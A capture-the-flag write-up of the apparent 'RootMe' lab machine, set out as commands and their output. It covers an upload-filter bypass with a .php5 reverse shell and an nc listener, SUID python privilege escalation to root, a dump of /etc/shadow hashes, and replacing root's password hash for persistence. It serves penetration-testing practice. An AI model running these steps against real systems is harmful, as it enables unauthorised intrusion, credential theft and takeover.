 ===RootMe	Flutter July 27 2021===


# Recon #


----------------
	Scanning
----------------

$ nmap -sV -sC -T5 -oN nmap_initial $IP

	'''
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
		http-cookie-flags: 
			/: 
				PHPSESSID: 
					httponly flag not set
		http-server-header: Apache/2.4.29 (Ubuntu)
		http-title: HackIT - Home
	'''
	
> running SSH

> using PHP

$ gobuster dir http://$IP -w directory-list-2.3-medium.txt -o gobuster_80

	'''
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	/server-status (Status: 403)
	'''

---------------------
	Visiting Site
---------------------

- not much value on home

- /panel dir
	> file upload page
    > trying PHP file
    
    	PHP não é permitido!

    
    > trying .php3, php4, php5, phtml

    	O arquivo foi upado com sucesso!


# Intrusion #

- uploading php-reverse-shell.php5 to /panel
	> courtesy of pentestmonkey <3

$ nc -lvnp 4443

- /uploads dir
	> running php-reverse-shell.php5

### Session caught on nc ###

$ id

	'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

- Stabalisation

		'''
		python -c 'import pty;pty.spawn("/bin/bash")'
		bash-4.4$ 
		CTRL Z
		stty raw -echo
		fg
		export TERM=xterm
		'''

bash-4.4$ ls -l /etc/passwd

> world readable

bash-4.4$ cat /etc/passwd
	
> Users

		root
		rootme
		test


# PrivEsc #

bash-4.4$ find / -type f -user root -perm -u=s 2>/dev/null

	'''
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/snapd/snap-confine
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/openssh/ssh-keysign
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/bin/traceroute6.iputils
	/usr/bin/newuidmap
	/usr/bin/newgidmap
	/usr/bin/chsh
	/usr/bin/python
	/usr/bin/chfn
	/usr/bin/gpasswd
	/usr/bin/sudo
	/usr/bin/newgrp
	/usr/bin/passwd
	/usr/bin/pkexec
	/snap/core/8268/bin/mount
	/snap/core/8268/bin/ping
	/snap/core/8268/bin/ping6
	/snap/core/8268/bin/su
	/snap/core/8268/bin/umount
	/snap/core/8268/usr/bin/chfn
	/snap/core/8268/usr/bin/chsh
	/snap/core/8268/usr/bin/gpasswd
	/snap/core/8268/usr/bin/newgrp
	/snap/core/8268/usr/bin/passwd
	/snap/core/8268/usr/bin/sudo
	/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/8268/usr/lib/openssh/ssh-keysign
	/snap/core/8268/usr/lib/snapd/snap-confine
	/snap/core/8268/usr/sbin/pppd
	/snap/core/9665/bin/mount
	/snap/core/9665/bin/ping
	/snap/core/9665/bin/ping6
	/snap/core/9665/bin/su
	/snap/core/9665/bin/umount
	/snap/core/9665/usr/bin/chfn
	/snap/core/9665/usr/bin/chsh
	/snap/core/9665/usr/bin/gpasswd
	/snap/core/9665/usr/bin/newgrp
	/snap/core/9665/usr/bin/passwd
	/snap/core/9665/usr/bin/sudo
	/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/9665/usr/lib/openssh/ssh-keysign
	/snap/core/9665/usr/lib/snapd/snap-confine
	/snap/core/9665/usr/sbin/pppd
	/bin/mount
	/bin/su
	/bin/fusermount
	/bin/ping
	/bin/umount
	'''

> /usr/bin/python looks promising

bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

\# id

	'uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)'

	> root gained

\# find / -type f -name user.txt

	/var/www/user.txt

\# cat /var/www/user.txt
	
	Flag Found

\# find / -type f -name root.txt
	
	/root/root.txt

\# cat /root/root.txt

	Flag Found


# Okay, we've gotten all the flags for the challenge... but I'm not quite done #

Let's get those user hashes

\# cat /etc/shadow
	
	root:$6$5osB44J2$24WV3zAR1FTqEq3f2kSqrigUgyDmKucU8rwHvbOJWxIoWSlHbVHV1Ug1eOHqidieZWDU3Y5V3cimChun2JYNw1:18478:0:99999:7:::

	rootme:$6$jzeDDmrVeqMMEQqv$j8jwWy951YwWBJWzQNn.A45I.8H06/QOv4qocX.hNDdT42NytyavSHxlxoEh0ek2OS4NX27tuuZRTJuHPSWCp.:18478:0:99999:7:::

	test:$6$vXOyvOWZ$UpIjnJq/KuKmKHezW/pEM.nrI6QuqhWWlv/fUmLvJI1YG7nju2vpP3vg1Q0SSf5FCk8058WD5Rc3XXPMRlqHb0:18478:0:99999:7:::

> eh, we can crack them another time for fun, not necessary

$ mkpasswd -m sha-512 FlutterWasHere > newpass

	'$6$n0dYLiOE/DZ$6PzFKyQpxCEGIf3ZFHUITMYmMuVH6vYC7QECwuXLJJMLMRKOr5Tf.pEJQMfP22BE9ouZ.A5l1d8c9ctJZ6un3.'

\# nano /etc/shadow
	
> replace hash with our own

\# exit

bash-4.4$ su root

	Password: FlutterWasHere

root@rootme:/# id

	'uid=0(root) gid=0(root) groups=0(root)'

Mwahaha root is all ours now, and the shell is more responsive

### Getting rid of the SUID ###

root@rootme:/# chmod 755 /usr/bin/python

root@rootme:/# ls -l /usr/bin/python

	'-rwxr-xr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python'
